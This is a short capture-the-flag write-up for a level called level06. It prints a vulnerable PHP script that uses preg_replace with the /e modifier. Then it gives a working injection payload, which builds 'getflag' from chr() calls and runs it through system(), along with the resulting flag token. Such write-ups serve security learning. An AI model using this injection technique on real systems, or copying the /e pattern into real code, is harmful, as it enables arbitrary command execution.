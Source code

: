 ##### 1 - Analyze binary file

``./level06``
>PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

``cat level06.php``
````
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
````

Program need a file in argument

----

##### 2 - Inject code

For x preg_replace use /e so expression is use as PHP code and opens a vulnerability.


``echo '[x {${system(implode(array(chr(103),chr(101),chr(116),chr(102),chr(108),chr(97),chr(103))))}}]' > /tmp/lvl06``


**103 (g), 101 (e), 116 (t), 102 (f), 108 (l), 97 (a), 103 (g)**

----

##### 3 - Getting the flag

``./level06 /tmp/lvl06``
>Check flag.Here is your token : **wiok45aaoguiboiki2tuin6ub**
>PHP Notice:  Undefined variable: Check flag.Here is your token : **wiok45aaoguiboiki2tuin6ub** in /home/user/level06/level06.php(4) : regexp code on line 1
